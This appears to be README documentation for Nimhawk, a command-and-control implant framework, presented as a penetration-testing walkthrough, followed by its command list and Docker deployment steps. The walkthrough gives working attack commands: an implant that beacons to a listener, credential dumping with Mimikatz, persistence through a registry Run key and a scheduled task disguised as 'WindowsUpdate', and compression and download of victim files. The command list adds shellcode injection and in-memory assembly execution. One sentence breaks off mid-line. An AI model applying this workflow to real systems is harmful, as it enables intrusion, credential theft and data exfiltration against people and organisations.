A penetration tester has obtained initial access to a target machine through a phishing campaign. 
The tester builds a customized Nimhawk implant with the following characteristics:

```bash
# Web UI: Configure and build implant
- Listener: 192.168.1.100:443
- Sleep: 30 seconds with 20% jitter
- Encrypted comms with custom certificate
- Process injection capability enabled
```

### Execution and Establishment

After deployment, the implant reports back to the C2 server:

```
[+] New implant registered: DESKTOP-AB123CD (CORP\user)
[+] Operating System: Windows 10 Enterprise
[+] Network IP: 10.10.15.25 (Internal), 192.168.1.23 (External)
```

### Reconnaissance Phase

The penetration tester conducts initial recon:

```bash
# Check environment
whoami /all
hostname
getdom
getav

# Network enumeration
shell ipconfig /all
shell route print
shell netstat -ano
```

### Lateral Movement

After identifying potential targets for lateral movement:

```bash
# Upload Mimikatz to memory and dump credentials
upload C:\Windows\Temp\mimikatz.exe
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Create a new implant for lateral movement
# Build via Web UI targeting another system using discovered credentials
```

### Persistence (Optional)

Establishing persistence for longer engagements:

```bash
# Registry persistence
shell reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Users\user\Documents\update.exe" /f

# Scheduled task
shell schtasks /create /sc minute /mo 30 /tn "WindowsUpdate" /tr "C:\Users\user\Documents\update.exe" /f
```

### Data Exfiltration

Collecting and exfiltrating valuable data:

```bash
# Gather specific files
ls C:\Users\Administrator\Documents
download C:\Users\Administrator\Documents\financial_report.xlsx

# Compress and download multiple files
shell powershell Compress-Archive -Path "C:\Users\user\Documents\Project*" -DestinationPath "C:\Temp\projects.zip"
download C:\Temp\projects.zip
```

### Cleanup

At the end of the engagement:

```bash
# Remove artifacts
shell del C:\Temp\projects.zip
shell del C:\Windows\Temp\mimikatz.exe

# Remove implant
kill
```

This scenario demonstrates how Nimhawk can be used effectively in a complete penetration testing workflow, from initial access to cleanup, while maintaining operational security and minimizing noise on the target system.

## Available Commands

The Nimhawk implant supports the following commands:

### System Information
- `whoami` - Display current user information
- `hostname` - Display system hostname
- `ps` - List running processes
- `env` - Show environment variables
- `getav` - Get information about installed antivirus products
- `getdom` - Get domain information

### File System Operations
- `ls [directory]` - List directory contents
- `cd [directory]` - Change current directory
- `pwd` - Print working directory
- `cat [file]` - Display file contents
- `rm [file]` - Remove file
- `mkdir [directory]` - Create directory
- `cp [source] [destination]` - Copy file
- `mv [source] [destination]` - Move or rename file

### Network Operations
- `curl [url]` - Make HTTP request
- `download [file]` - Download file from target
- `upload [file] - Upload file to target
- `wget [url] [destination]` - Download file from URL to target

### Execution Commands
- `run [command]` - Execute command and capture output

### Risky Commands (Available in Risky Mode)
- `execute-assembly [file]` - Execute .NET assembly in memory
- `inline-execute [file]` - Execute raw shellcode in memory
- `powershell [command]` - Execute PowerShell command
- `shell [command]` - Execute shell command (cmd.exe)
- `shinject [pid] [file]` - Inject shellcode into process

### Control Commands
- `sleep [seconds] [jitter]` - Set sleep time and jitter
- `checkin` - Force check-in with server 
- `kill` - Terminate implant

For detailed usage of each command, use the `

## Support the Project

If you find Nimhawk useful for your work, consider supporting the project:

[](https://buymeacoffee.com/hdbreaker9s)

# Docker Support

Nimhawk provides official Docker support for easy deployment and consistent environment across different systems.

## Building the Docker Image

Build the Nimhawk Docker image with:

```bash
docker build -t nimhawk .
```

## Running Nimhawk in Docker

The container supports multiple operation modes:

```bash
docker run -it -p 3000:3000 -p 9669:9669 -p 80:80 -p 443:443 \
  -v nimhawk-data:/nimhawk/server \
  nimhawk full
```

### Available Commands

```
server    - Start the Nimhawk server via nimhawk.py (generates .xorkey file)
compile   - Compile implants (e.g., docker run nimhawk compile exe nim-debug)
frontend  - Start only the frontend dev server
full      - Start both backend and frontend servers
shell     - Start an interactive shell
help      - Show this help message
```

### Port Mapping

The exposed ports must match those configured in your `config.toml` file:
- `3000`: Frontend React application
- `9669`: Admin API server (as configured in `admin_api.port`)
- `80`: Default HTTP listener for implants (as configured in `implants_server.port`)
- `443`: HTTPS listener (only needed if using HTTPS in `implants_server.type`)

### Important Notes

- The `-it` flags are **required** for proper console interaction with the Nimhawk server, as it relies on interactive terminal input.
- Using the `server` command will generate a new XOR key file for encryption.
- The `full` command is recommended for most users as it starts both backend and frontend.

### Examples

```bash
# Start full Nimhawk (backend + frontend)
docker run -it -p 3000:3000 -p 9669:9669 -p 80:80 -p 443:443 nimhawk full

# Compile implants only
docker run -it nimhawk compile all

# Compile implants in debug mode
docker run -it nimhawk compile all nim-debug

# Launch an interactive shell in the container
docker run -it nimhawk bash
```

### Persistent Storage

For persistent data storage, mount a volume to preserve the database:

```bash
docker run -it -p 3000:3000 -p 9669:9669 -p 80:80 -p 443:443 \
  -v nimhawk-data:/nimhawk/server \
  nimhawk full
```

This ensures your implant data, command history, and files remain available between container restarts.